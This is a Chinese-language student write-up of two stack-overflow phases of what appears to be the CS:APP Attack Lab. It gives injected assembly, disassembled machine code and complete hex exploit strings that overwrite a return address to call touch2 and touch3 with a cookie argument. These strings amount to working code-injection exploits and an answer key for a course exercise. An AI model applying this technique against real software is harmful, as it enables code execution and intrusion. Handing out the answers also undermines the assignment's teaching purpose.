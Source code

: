 ## 第二题

要求跳转到 `touch2` 函数，在第一题基础上加入了传值的要求；
方法就是注入代码，将返回地址改为注入代码的首地址，然后给参数的寄存器`%rdi`赋值，接着再次调用 `touch2` 时就有参数值了；
注入的代码：

```
movq $0x59b997fa,%rdi
pushq $0x004017ec
retq
```

第一行传值，传的值 `cookie` 为 `0x59b997fa` ，第二行将调用 `touch2` 的地址压入栈，这样第三行返回时，就可以调用 `touch2` 了，注意题目规定不能用 `jmp` 的；
将注入代码保存为 `code.s` 文件，参考文档，使用 `gcc -c code.s` 编译，再用 `objdump -d code.o > code.d` 反汇编就能得到十六进制表示的机器代码了，将这段代码通过 `getbuf` 放入栈中（首地址在栈顶，可以通过 `gdb` 打个断点，打印 `%rsp` 的值就是栈顶了），再和第一题一样填充到40字节，结尾加上注入代码的地址就是答案了：

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
51 51 51
51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
78 dc 61 55 00 00 00 00
```

## 第三题

第三题也是注入代码，将 `cookie` 的字符串的地址传入函数，注入代码和第二题类似，但是注意因为第三题中，后续操作会将 buf 栈中的 40 个字节覆盖了，所以不能将字符串存储中这里，改为存储在调用函数前的栈中，通过打断点得到其栈顶地址是 `0x5561dca0` 。所以应该把字符串存入的地址设为 `0x5561dca8` ，这个地址在输入的 16 进制中就紧跟着跳转的地址。
注入的代码（已经反编译了）：

```
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq
```

再和上题类似填充至 40 字节，附上跳转地址。再将 `cookie` 转化为 16 进制的字符串附到跳转地址后面，根据 `ASCII` 码，这里的 `cookie` 值 `0x59b997fa` 就是 `35 39 62 39 39 37 66 61 00` 这里末尾加 `00` ，我不知道是什么意思，不过看很多人都加了，我也跟风。。经验证，加不加对结果无影响。因而最终答案是：

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

## Part2
